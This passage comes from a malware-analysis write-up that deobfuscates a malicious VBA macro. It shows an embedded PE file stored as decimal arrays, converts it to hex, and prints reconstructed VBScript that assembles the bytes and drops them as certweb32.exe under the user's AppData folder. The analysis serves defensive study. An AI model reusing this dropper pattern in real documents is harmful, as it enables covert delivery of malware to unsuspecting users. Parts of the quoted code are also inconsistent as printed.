 ```
"77,90,144,0,3,0,0,0,4,0,0,0,255,255,0,0,184,0,0,0,0,0,0,0,64,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,128,0,0,0,14,31,186,14,0,180,9,205,33,184,1,76,205,33,84,104,105,115,32,112,114,111,103,114,97,109,32,99,97,110,110,111

```
which when converted in hexadecimal

```
4D 5A 90 00 03 00 00 00 04 00 00 00 FF FF 00 00 B8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 80 00 00 00 0E 1F BA 0E 00 B4 09 CD 21 B8 01 4C CD 21 54 68 69 73 20 70 72 6F 67 72 61 6D 20 63 61 6E 6E 6F
```
Similarly upon debugging all the other six functions, which have the same code, concludes that the variables `b0 , b1 , b2, b3, b4, b5, b6` contains the contents of PE File in decimal format. 

![image](https://github.com/xelemental/xelemental.github.io/assets/49472311/3fe9cc8e-634b-4759-977c-8b4ab9cb8457)

Now, moving ahead to the second part of the obfuscated macro, we have a code which converts the decimal to hexadecimal, and then splits up and converts it to byte array.

The deobfuscated code looks something like this:

```vbscript
Function Wortfun()
'Collects PE File contents from the functions
Dim PE_Contents
PE_Contents = "" 
PE_Contains = PE_Contents + b0()

'Converts to hex and splits it
Dim split_to_hex() As String
split_to_hex = Split(PE_Contents, tzvqtseegxmshhc("2c"))
Dim gtfehnohsaitbpld As Long
contents_split_to_hex = UBound(split_to_hex) - LBound(split_to_hex) + 1

'Converts to byte array using a for loop
Dim imzwcnxrtj() As Byte
ReDim imzwcnxrtj(contents_split_to_hex)
For i = 0 To contents_split_to_hex - 1
imzwcnxrtj(i) = contents_split_to_hex(i)
Next i
```

Now, once the content is saved inside a byte array in binary format. 

![image](https://github.com/xelemental/xelemental.github.io/assets/49472311/af2cf90d-a7d7-446b-9dba-0a83efdab905)

Moving ahead to the next part of the code, the macro creates and opens a file with write permission, writes the binary content inside it and closes it. 

The deobfuscated code looks something like this:

```vbscript
tempPath = C:\Users\Username\AppData\Roaming
FileName = tempPath + \Microsoft\Windows\certweb32.exe 
Open FileName for Binary Access Write As #!
IWrite = 1
Put #1, IWritePos, binarycontent
Close#1|
```
